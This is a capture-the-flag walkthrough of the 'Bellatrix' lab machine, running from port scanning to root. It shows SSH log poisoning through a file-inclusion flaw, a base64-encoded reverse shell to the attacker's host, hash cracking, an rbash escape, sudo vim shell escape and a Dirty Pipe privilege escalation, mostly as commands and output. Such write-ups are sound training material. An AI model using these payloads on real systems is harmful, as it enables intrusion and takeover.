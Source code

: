 # Bellatrix
## User flag

As always let's see the open ports

```shell
 nmap -n -p- -Pn -sS --min-rate 5000 -oN allports 192.168.1.40
 PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now let's do a in depth scan of those ports

```shell
nmap -sCV -p80,22 -oN targeted 192.168.1.40
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:ce:c7:5a:9c:1f:8b:cd:47:03:08:69:85:c2:91:49 (RSA)
|   256 a1:2a:a8:15:99:04:cc:2a:1e:e3:50:00:f3:55:c2:cc (ECDSA)
|_  256 2c:d3:ec:6f:4f:5b:4a:e0:ea:0a:c3:0d:2f:cb:78:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Nothing meaningful so far let's see the web. Now we have two huge hints we have a domain at the end of the text "ikilledsiriusblack.php" and a possible LFI in that page by looking at the php code on the left corner.

Thats right by going to the php domain and adding ?file we can read files from the system. The obvious step now is to get RCE with log poisoning so I started looking for apache logs everywhere but I couldn't find any. However I managed to found ssh logs at /var/log/auth.log so I injected php code by connecting as a php command like this

```shell
ssh '<?php system($_GET[c]); ?>'@192.168.1.40
```

Just enter whatever password you wish because the idea of this is injecting code on the log. Now if we also call the atribute c we can execute commands ex: ` http://192.168.1.40/ikilledsiriusblack.php?file=/var/log/auth.log&c=ls ` by pressing crtl+u we can see the response more clearly (at least in chrome). Ok let's just inject the base64 shell then in my case `echo "c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzc3NzcgMD4mMQo=" | base64 -d | bash`

```shell
 nc -lvp 7777
Connection from 192.168.1.40:49022
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@bellatrix:/var/www/html$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~/htb/bellatrix/scan]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777

www-data@bellatrix:/var/www/html$ stty rows 30 columns 132
www-data@bellatrix:/var/www/html$
```

We have a directoty called secrets in base64 and inside we have the password hash of the user lestrange and a dictionary.

```shell
secretswww-data@bellatrix:/var/www/html$ cd c2VjcmV0cw\=\=/
www-data@bellatrix:/var/www/html/c2VjcmV0cw==$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
www-data@bellatrix:/var/www/html/c2VjcmV0cw==$ cat Swordofgryffindor
lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0
```
once cracked the password is

```shell
hashcat -m 1800 hash dict --show
$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0:ihateharrypotter
```

Once loged as the new user we have a restricted shell called rbash but we can easily break out like this

```shell
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ cd
rbash: cd: restringido
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ bash
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ cd
lestrange@bellatrix:~$
```

Next step is clear when executing sudo -l

```shell
lestrange@bellatrix:/var/www/html$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

let's execute a shell with vim as bellatrix

```shell
sudo -u bellatrix vim -c ':!/bin/sh'
:!/bin/sh
$ bash
bellatrix@bellatrix:/var/www/html$
```
 When executing the command a weird psedo shell spawns but by typing bash we can once again break out. Now we can get the user flag

```shell
bellatrix@bellatrix:/var/www/html$ cd
bellatrix@bellatrix:~$ cat flag.txt
```

## Root flag

For a better workflow I created an ssh key pair and added my public key to the authorized keys however this is optional. After some time lost I decided to execute linpeas and I realize that the user is part of the lxd group however lxc wasn't installed. So my next idea is to try the dirty pipe exploit, I used this [repo](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) modified the compile.sh to add --static to both lines and tried the exploits, exploit-1 dind't work but exploit-2 did.


```shell
bellatrix@bellatrix:/dev/shm$ ./exploit-2 /usr/bin/mount
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# cat /root/root.txt
 ____       _ _       _        _
 |  _ \     | | |     | |      (_)
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  <
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\




  _               _
 | |             | |
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |
                                      |___/


```

For me this machine very easy as the Dobby one it only adds more steps but none are difficult to achieve, however I reckon that this machine is really usefull to practise a lot of skills.

(EDIT): Hey the last step wasn't needed for root flag, as the machine was in spanish I though that when I executed sudo -l it meant you could execute this command as bellatrix but bellatrix is also the name of the machine. So you can just go from lestrange to root without dirty pipe. And that's why sometimes you have to read carefully! Anyway great machine over all.
